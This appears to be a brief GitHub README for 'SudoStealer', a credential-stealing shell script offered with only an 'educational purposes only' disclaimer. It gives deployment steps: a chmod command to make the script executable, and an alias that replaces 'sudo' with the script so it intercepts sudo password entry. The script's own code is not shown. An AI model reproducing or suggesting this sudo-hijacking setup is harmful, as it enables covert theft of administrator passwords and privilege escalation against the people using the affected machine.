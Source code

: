 # SudoStealer

# DO NOT USE FOR ANY ILLEGAL ACTIVITY!

### Educational purposes only!


To use the script follow these steps:

Make it executeable:
```chmod +x sudostealer.sh```

Create an alias:
```alias sudo="/PathToFile/sudostealer.sh"```
